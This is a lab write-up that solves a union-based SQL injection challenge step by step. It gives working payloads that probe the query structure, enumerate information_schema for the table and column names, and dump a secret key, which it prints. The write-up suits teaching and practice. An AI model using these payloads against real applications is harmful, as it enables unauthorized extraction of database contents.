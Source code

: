 ## Challenge - 1

In this challenge we have to dump a secret key in an unknown column in an unknown table in the database 'CHALLENGES'. This is a union based challenge and we have to get the key in less than 10 attempts

references :

 http://www.securitytube.net/video/4210

http://www.securitytube.net/video/4208

### Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value

```sql
0' or 1=1 --+ 
```

which gives us a login name and a password.

To make sure it is correct we try with id=

```sql
0" or 1=1 --+
```

which outputs nothing. So the query must be like

```sql
select login_name,password from table_name where id='input' 
```

we still don't know the table name or the column names.

now as we know the query structure we can try union by giving: id=

```sql
0' union select 1,2,3 --+
```

which gives us

```
Your Login name:2
Your Password:3
```

to recheck we try giving values

```sql
0' union select 1,4,5 --+
```

and as expected we get

```
Your Login name:4
Your Password:5
```

So this query will dump anything we give in the place of 2 and 3. 

We can use the same method to dump table_name,column_name and secret key

### Solving

Now we can find the table name using

```sql
0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :

**usauc12dne**

Now we can find the columns in the table using 

```sql
0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='usauc12dne' and table_schema='CHALLENGES'; --+
```

we get 4 column names:

**id,sessid,secret_UORS,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0' union select 1,2,group_concat(secret_UORS) from usauc12dne; --+
```

We get the secret key:

**hcZo9W8NUjESrCoWaEyyyoV6**

